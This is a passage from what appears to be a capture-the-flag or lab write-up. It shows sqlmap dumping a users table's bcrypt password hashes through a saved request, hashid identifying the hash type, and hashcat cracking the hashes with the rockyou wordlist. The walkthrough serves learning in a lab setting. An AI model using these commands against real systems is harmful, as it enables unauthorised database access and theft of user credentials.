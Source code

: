 However, I decided to guess instead.

{% code overflow="wrap" %}
```bash
sqlmap -r new.req --batch -T users -C password --dump
+----------+
| password |
+----------+
| <blank>  |
| <blank>  |
+----------+
```
{% endcode %}

Guess we need `pwhash` instead, then we can crack it.

{% code overflow="wrap" %}
```bash
sqlmap -r new.req --batch -T users -C pwhash --dump
+--------------------------------------------------------------+
| pwhash                                                       |
+--------------------------------------------------------------+
| $2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S. |
| $2y$10$Is00vB1hRNHYBl9BzJwDouQFCU85YyRjJ81q0CX1a3sYtvsZvJudC |
+--------------------------------------------------------------+
```
{% endcode %}

Let's confirm the hash type.

{% code overflow="wrap" %}
```bash
hashid '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
```
{% endcode %}

We check the mode in hashcat and put the hashes into a file called "hash".

{% code overflow="wrap" %}
```bash
hashcat -h | grep -i blowfish
3200 | bcrypt $2*$, Blowfish (Unix
```
{% endcode %}

Time to crack (I have the rockyou.txt wordlist in an environment variable)!

{% code overflow="wrap" %}
```bash
hashcat -m 3200 hash $rockyou
```
{% endcode %}

It said it would take 2 days in my VM so I switched to windows (GPU), reduced time to ~10 hours.
